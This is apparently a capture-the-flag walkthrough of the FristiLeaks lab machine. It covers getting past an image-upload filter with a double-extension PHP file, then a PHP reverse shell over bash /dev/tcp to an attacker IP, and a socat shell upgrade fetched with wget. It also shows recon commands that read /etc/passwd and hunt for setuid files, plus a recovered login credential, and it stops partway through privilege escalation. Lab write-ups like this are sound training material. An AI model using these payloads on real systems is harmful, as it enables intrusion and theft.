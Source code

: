 There is probably just a index.html "blocking" the file view?
> Sorry, is not a valid file. Only allowed are: png,jpg,gif

Changing the MIME-Type of an .html to `image/png` does not help.  
Apache seems to work with a whitelist instead of a blacklist approach, so no .htaccess bypass.  
Maybe `AddHandler` directive is used? `yes!`
```bash
$ cat <<EOF > bypass.php.jpg 
> <?php
> echo 'yes!'
> ?>
> EOF
$ curl -s $target/fristi/uploads/bypass.php.jpg -H "Cookie: PHPSESSID=85cbvuhjnk9qa42f83ktead611"
yes!
```

## Exploitation

Upload `shell.php.jpg` with a reverse shell. `nc` is not available on the target so we need something else:  
`<?php system("bash &>/dev/tcp/10.10.10.10/4444 <&1"); ?>`  
After this let's upgrade our shell:  
```bash
# Kali
$ `socat file:`tty`,raw,echo=0 tcp-listen:4445`
# Box
$ wget -q \
https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat \
-O /tmp/socat 
$ chmod +x /tmp/socat
$ ./tmp/socat exec:'bash -li'ty,stderr,setsid,sigint,sane tcp:10.10.10.10:4445`
```

## Privilege Escalation

Just some notes:  
```bash
# checklogin.php: eezeepz:4ll3maal12#
# database schema: hackmenow
# table: members
$ cat /etc/passwd
$ cat /etc/groups
$ uname -a
Linux localhost.localdomain 2.6.32-573.8.1.el6.x86_64 #1 SMP Tue Nov 10 18:01:38 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
$ cat /etc/issue
[...] CentOS 6.7 Final
# check for setuid flag
$ find / -user root -perm -4000 -exec ls -ldbtr \{} \;
```

There is a `.` (dot) after the permissions in `ls -l /home/eezeepz`.  
Read up: [SELinux](https://wiki.centos.org/HowTos/SELinux). 
```bash
# config: /etc/selinux/config
# check if enabled
$ getenforce / $ sestatus
Disabled
$ ls -Z tar 
-rwxr-xr-x. eezeepz eezeepz unconfined_u:object_r:user_home_t:s0 tar
```
